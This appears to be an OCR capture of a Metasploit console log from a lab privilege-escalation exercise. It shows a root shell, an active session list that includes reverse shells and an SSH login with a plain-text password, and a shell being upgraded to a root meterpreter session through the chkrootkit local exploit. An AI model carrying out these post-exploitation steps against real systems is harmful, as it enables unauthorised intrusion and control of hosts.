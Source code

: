```
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
^Z
Background session 3? [y/N]  y
```

```
msf5 exploit(unix/local/chkrootkit) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                                  Connection
  --  ----  ----                   -----------                                                                  ----------
  1         shell unknown          SSH jackie:password (192.58.78.3:22)                                         192.58.78.2:41271 -> 192.58.78.3:22 (192.58.
78.3)
  2         meterpreter x86/linux  no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.58.78.3  192.58.78.2:4433 -> 192.58.78.3:48022 (192.5
8.78.3)
  3         shell cmd/unix                                                                                      192.58.78.2:4444 -> 192.58.78.3:60226 (192.5
8.78.3)

msf5 exploit(unix/local/chkrootkit) > sessions -u 3
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3]

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.58.78.2:4433 
[*] Sending stage (980808 bytes) to 192.58.78.3
[*] Meterpreter session 4 opened (192.58.78.2:4433 -> 192.58.78.3:56510) at 2023-03-24 09:29:53 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(unix/local/chkrootkit) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                                  Connection
  --  ----  ----                   -----------                                                                  ----------
  1         shell unknown          SSH jackie:password (192.58.78.3:22)                                         192.58.78.2:41271 -> 192.58.78.3:22 (192.58.
78.3)
  2         meterpreter x86/linux  no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.58.78.3  192.58.78.2:4433 -> 192.58.78.3:48022 (192.58.78.3)
  3         shell cmd/unix                                                                                      192.58.78.2:4444 -> 192.58.78.3:60226 (192.58.78.3)
  4         meterpreter x86/linux  no-user @ victim-1 (uid=0, gid=0, euid=0, egid=0) @ 192.58.78.3              192.58.78.2:4433 -> 192.58.78.3:56510 (192.58.78.3)
```
